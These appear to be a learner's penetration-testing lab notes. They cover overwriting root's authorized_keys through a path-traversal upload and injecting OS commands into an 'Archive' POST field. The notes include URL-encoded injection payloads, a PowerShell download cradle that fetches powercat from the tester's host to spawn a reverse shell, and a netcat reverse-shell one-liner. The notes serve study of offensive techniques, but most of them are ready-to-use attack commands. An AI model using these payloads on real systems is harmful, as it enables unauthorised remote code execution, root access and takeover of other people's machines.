 overwrite authorized_keys in home firectory of root

ssh-keygen
generate ssh key pair

cat fileup.pub > authorized_keys
rename fileup.pub to authorized keys

we can upload with ../../../../../../../root/.ssh/authorized_keys
rename is done in burp intercept

rm ~/.ssh/known_hosts 
to remove saved hosts files because we're going to test a different machine
ssh -p <port> -i <privatekey file> root@domain


OS command injection

ExploitDB

we can use burp to inspect the actual command and modify it with repeater

curl -X POST --data 'Archive=<command>' <domain>/archive
this is obtained from burp or just inspecting the input feild

we can use %3B for encoded ;
or && 

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

CMD depending on where it is executed

curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

encoded version 

power cat for reverse shell netcat for windows

cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
this copy powercat to home directory of user

we can then start python3 webserver on the same directory

need to also start netcat listener

IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
powershell download cradle to load powercat function in powercat from our server. second command to create reverse shell with -c of where to connect -p for port and -e for the program

curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
encoded curl version

normal netcat can just
nc <ip> <port> -e /bin/bash for reverse shell